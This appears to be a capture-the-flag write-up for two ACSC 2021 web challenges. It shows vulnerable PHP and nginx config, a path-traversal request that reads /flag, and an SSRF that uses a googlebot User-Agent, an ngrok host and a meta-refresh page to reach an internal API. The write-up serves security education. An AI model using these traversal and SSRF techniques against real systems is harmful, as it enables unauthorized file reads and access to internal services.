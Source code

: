 # ACSC 2021 - Asian Cyber Security Challenge 2021
solved 
- [API](#api)	[web]
- [Favorite Emojis](#favorite-emojis)  [web]

## API

According to the Dockerfile, reading /flag is the goal.
```Dockerfile
FROM php:7.3-apache

RUN echo "ACSC{this is fake flag}" > /flag
RUN chmod 0444 /flag

COPY ./public/ /var/www/html/
COPY ./000-default.conf /etc/apache2/sites-available/
RUN chmod 0777 /var/www/html/lib/db/

RUN chown -R root:www-data /var/www/html/

RUN chmod 0755 /var/www/html/

```

After looking for the part that reads the file, export_db was found. It takes $file as an argument, concatenates it with the path, and returns the contents of the file.

If `$file` include `../`, LFI is possible.


```php

	public function export_db($file)
	{
		if ($this->is_pass_correct()) {
			$path = dirname(__FILE__) . DIRECTORY_SEPARATOR;
			$path .= "db" . DIRECTORY_SEPARATOR;
			$path .= $file;
			$data = file_get_contents($path);
			$data = explode(',', $data);
			$arr = [];
			for ($i = 0; $i < count($data); $i++) {
				$arr[] = explode('|', $data[$i]);
			}
			return $arr;
		} else
			return "The passcode does not equal with your input.";
	}
```

Looking at `is_pass_correct()`, we need to know `this->db["path"]`.

```php
public function is_pass_correct()
	{
		$passcode = $this->get_pass();
		$input = $_REQUEST['pas']; 
		if ($input == $passcode) return true;
	}
public function get_pass()
	{
		return file_get_contents($this->db['path']);
	}
```

`get_pass` is called in `challenge` and return content of `this->db["path"]`


```php
function challenge($obj)
{ // obj : User

	if ($obj->is_login()) { // is_login  verify session
		$admin = new Admin();
		if (!$admin->is_admin()) $admin->redirect('/api.php?#access denied'); 


		$cmd = $_REQUEST['c2'];
		if ($cmd) {
			switch ($cmd) {
				case "gu":
					echo json_encode($admin->export_users());
					break;
				case "gd":
					echo json_encode($admin->export_db($_REQUEST['db']));
					//param pas =passcode.db content
					//param file = ../../../../../flag
					//param c2 = gd
					break;
				case "gp":
					echo json_encode($admin->get_pass());  // return this->db["path"] contetnt
                    //param c2 = gp
					break;
				case "cf":
					echo json_encode($admin->compare_flag($_REQUEST['flag'])); 
					break;
			}
		}
	}
}
```

`challenge` is called in `main` 
```php
function main($acc)
{
	gen_user_db($acc);
	gen_pass_db();
	header("Content-Type: application/json");
	var_dump($acc);
	$user = new User($acc);

	$cmd = $_REQUEST['c'];
	//param c = u
	usleep(500000);
	switch ($cmd) {
		case 'i':
			if (!$user->signin())
				echo "Wrong Username or Password.\n\n";
			break;

		case 'u':
			if ($user->signup())
				echo "Register Success!\n\n";
			else
				echo "Failed to join\n\n";

		case 'o':
			if ($user->signout())
				echo "Logout Success!\n\n";
			else
				echo "Failed to sign out..\n\n";
			break;
	}
	challenge($user);
}
```
Therefore, send the appropriate id and pw, to signup and signin.
```
GET /api.php?c=u&id=Aaaaaaaaaa&pw=Aaaaaaaaaa HTTP/1.1

```

then,get `this->db["path"]` content
```
GET /api.php?c=i&id=Aaaaaaaaaa&pw=Aaaaaaaaaa&c2=gp HTTP/1.1
```

`"eg5y" == $this->get_pass()`
```

GET /api.php?c=i&id=Aaaaaaaaaa&pw=Aaaaaaaaaa&c2=gd&pas=eg5y`&db=../../../../../flag HTTP/1.1
```
`ACSC{it_is_hard_to_name_a_flag..isn't_it?}`


## Favorite Emojis

According to the `docker-compose.yml` and `app.py`, access to `http:app:8000/` is the goal.

But nginx routing as shown below.However, there is a rewrite rule, so use it for SSRF.

```nginx
server {
    listen 80;
 
    root   /usr/share/nginx/html/;
    index  index.html;

    location / {
        try_files $uri @prerender;
    }
 
    location /api/ {
        proxy_pass http://api:8000/v1/;
    }
 
    location @prerender {
        proxy_set_header X-Prerender-Token YOUR_TOKEN;
        
        set $prerender 0;
        if ($http_user_agent ~* "googlebot|bingbot|yandex|baiduspider|twitterbot|facebookexternalhit|rogerbot|linkedinbot|embedly|quora link preview|showyoubot|outbrain|pinterest\/0\.|pinterestbot|slackbot|vkShare|W3C_Validator|whatsapp") {
            set $prerender 1;
        }
        if ($args ~ "_escaped_fragment_") {
            set $prerender 1;
        }
        if ($http_user_agent ~ "Prerender") {
            set $prerender 0;
        }
        if ($uri ~* "\.(js|css|xml|less|png|jpg|jpeg|gif|pdf|doc|txt|ico|rss|zip|mp3|rar|exe|wmv|doc|avi|ppt|mpg|mpeg|tif|wav|mov|psd|ai|xls|mp4|m4a|swf|dat|dmg|iso|flv|m4v|torrent|ttf|woff|svg|eot)") {
            set $prerender 0;
        }
 
        if ($prerender = 1) {
            rewrite .* /$scheme://$host$request_uri? break;
            proxy_pass http://renderer:3000;
        }
        if ($prerender = 0) {
            rewrite .* /index.html break;
        }
    }
}

```

Port is not included in the rewrite rules, so we need to redirect other servers to the api server.



Therefore, send a request like the following.
```
GET http://dd5f-60-126-216-91.ngrok.io/ HTTP/1.1
Host: dd5f-60-126-216-91.ngrok.io
User-Agent: googlebot
Content-Length: 2
```
and, provide html like the following
```
<html>
    <head>
        <meta http-equiv=refresh content="0.5;URL=http://api:8000">
    </head>
</html>
```

ACSC{sharks_are_always_hungry}
